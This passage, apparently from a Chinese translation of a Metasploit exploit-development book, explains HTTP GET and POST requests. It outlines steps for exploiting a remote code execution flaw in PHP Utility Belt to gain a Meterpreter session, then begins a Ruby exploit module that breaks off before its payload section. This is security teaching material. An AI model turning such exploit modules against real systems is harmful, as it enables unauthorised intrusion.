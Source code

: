 ![](img/a1ae8b68-eddd-4e6e-b464-3bbaa675cbf9.png)

通过使用前面的参数，我们可以传递与请求相关的各种值。其中一个例子是设置我们特定的 cookie 和我们选择的许多其他参数。让我们保持简单，重点关注`URI`参数，即可利用 web 文件的路径。

`method`参数指定它是`GET`或`POST`类型的请求。我们将在向目标获取/发布数据时使用这些工具。

# GET/POST 方法的要点

`GET`方法将从指定资源请求数据或网页，并使用它浏览网页。另一方面，`POST`命令将表单或特定值中的数据发送到资源进行进一步处理。现在，当编写基于 web 的漏洞利用时，这很方便。HTTP 库简化了将特定查询或数据发布到指定页面的过程。

让我们看看我们需要在这个漏洞中执行什么：

1.  创建一个`POST`请求
2.  使用`CODE`参数将有效负载发送到易受攻击的应用
3.  获取对目标的 MeterMeter 访问权限
4.  执行一些后期开发功能

我们清楚我们需要完成的任务。让我们再做一步，生成一个兼容的匹配漏洞，并确认它正在工作。

# 将 HTTP 漏洞导入 Metasploit

让我们编写针对 Metasploit 中 PHP 实用程序带远程代码执行漏洞的漏洞攻击，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 

  include Msf::Exploit::Remote::HttpClient 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PHP Utility Belt Remote Code Execution', 
      'Description'    => %q{ 
         This module exploits a remote code execution vulnerability in PHP Utility Belt 
      }, 
      'Author'         => 
        [ 
          'Nipun Jaswal', 
        ], 
      'DisclosureDate' => 'May 16 2015', 
      'Platform'       => 'php', 
      'Payload'        => 
```